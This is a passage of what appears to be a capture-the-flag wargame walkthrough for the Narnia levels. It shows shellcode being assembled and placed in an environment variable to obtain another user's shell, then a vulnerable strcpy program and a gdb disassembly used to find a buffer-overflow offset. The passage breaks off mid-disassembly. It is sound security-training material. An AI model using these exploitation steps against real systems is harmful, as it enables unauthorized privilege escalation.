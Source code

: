 ```
```

Now we simply need to assemble it and put it in the env-variable `EGG`:

```
narnia1@melinda:/narnia$ mkdir /tmp/doge1
narnia1@melinda:/narnia$ cd /tmp/doge1
narnia1@melinda:/tmp/doge1$ vim shellcode.asm
narnia1@melinda:/tmp/doge1$ nasm shellcode.asm 
narnia1@melinda:/tmp/doge1$ export EGG=$(cat shellcode)
narnia1@melinda:/tmp/doge1$ /narnia/narnia1
Trying to execute EGG!
$ whoami 
narnia2
```

Level 2:
--------

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];
                    
    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

To solve this level the return address of `main` needs to be overwritten with the address of a shell-spawning shellcode. Since the stack is executable we can simply put the shellcode in an env-variable as before. However, we first need to determine how many bytes must be written to `buf` until the return address is overwritten. This can be done by simply using different length inputs (above 128) or `gdb`:

```
narnia2@melinda:/narnia$ gdb -q ./narnia2
Reading symbols from /games/narnia/narnia2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048424 <+0>:     push   ebp
0x08048425 <+1>:     mov    ebp,esp
0x08048427 <+3>:     and    esp,0xfffffff0
0x0804842a <+6>:     sub    esp,0x90
0x08048430 <+12>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048434 <+16>:    jne    0x8048458 <main+52>
0x08048436 <+18>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048439 <+21>:    mov    edx,DWORD PTR [eax]
0x0804843b <+23>:    mov    eax,0x8048560
0x08048440 <+28>:    mov    DWORD PTR [esp+0x4],edx
0x08048444 <+32>:    mov    DWORD PTR [esp],eax
0x08048447 <+35>:    call   0x8048320 <printf@plt>
0x0804844c <+40>:    mov    DWORD PTR [esp],0x1
0x08048453 <+47>:    call   0x8048350 <exit@plt>
0x08048458 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
0x0804845b <+55>:    add    eax,0x4
```